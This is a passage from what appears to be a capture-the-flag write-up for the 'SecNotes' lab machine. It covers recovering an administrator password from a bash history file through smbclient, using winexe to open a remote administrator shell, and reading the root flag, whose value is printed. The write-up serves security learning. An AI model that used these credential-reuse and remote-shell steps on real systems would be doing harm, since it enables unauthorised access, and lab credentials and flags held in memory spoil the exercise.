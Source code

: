 ```
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history

```

![[secnotes-21.png]]
we will see history command shows password of administrator. 

It looks like the admin was trying to mount the local file system himself, and there’s the administrator password. It even seems that the user tried to clear the bash history, but because the current session is written in on exit, it only cleared history prior to this session.

#### Shell as administrator

With admin creds, we can now use `winexe` (or `psexec.py`) to get a shell on the box:

```bash
winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
```

```cmd
whoami
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

![[secnotes-22.png]]

```
C:\WINDOWS\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
40121860c5280be80641fed6f52215c3

```